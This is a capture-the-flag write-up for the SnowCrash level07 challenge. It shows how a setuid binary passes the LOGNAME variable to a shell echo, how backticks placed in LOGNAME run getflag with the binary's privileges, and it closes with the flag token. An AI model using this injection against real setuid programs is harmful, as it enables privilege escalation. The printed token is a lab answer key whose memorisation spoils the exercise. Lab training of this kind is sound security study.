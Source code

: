 # Level07

## Hint

Perhaps running `strings level07` will help you. You can also use `gdb` if that's your thing.

## Answer

Let's check our current directory:
```
level07@SnowCrash:~$ ll
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 ./
d--x--x--x 1 root    users    340 Aug 30  2015 ../
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout*
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07*
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile*
```

We have an executable file, let's run it first !
```
level07@SnowCrash:~$ ./level07
level07
```

Alright, let's run `strings level07` and see if we find any useful information:
```
level07@SnowCrash:~$ strings level07
[...]
getenv
[...]
LOGNAME
/bin/echo %s
[...]
```

So we found that the `getenv` command is executed, that there is a variable whose value is `LOGNAME` and that the `echo` command is used along with a `%s`. Let's see what our `LOGNAME` is:
```
level07@SnowCrash:~$ echo $LOGNAME
level07
```

Huh, exactly like the executable. Let's modify its value and run it again:
```
level07@SnowCrash:~$ LOGNAME=test
level07@SnowCrash:~$ ./level07
test
```

Perfect ! Now all we have to do is add some backticks to our `LOGNAME` to make it execute our getflag command:
``` 
level07@SnowCrash:~$ LOGNAME='`getflag`'
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
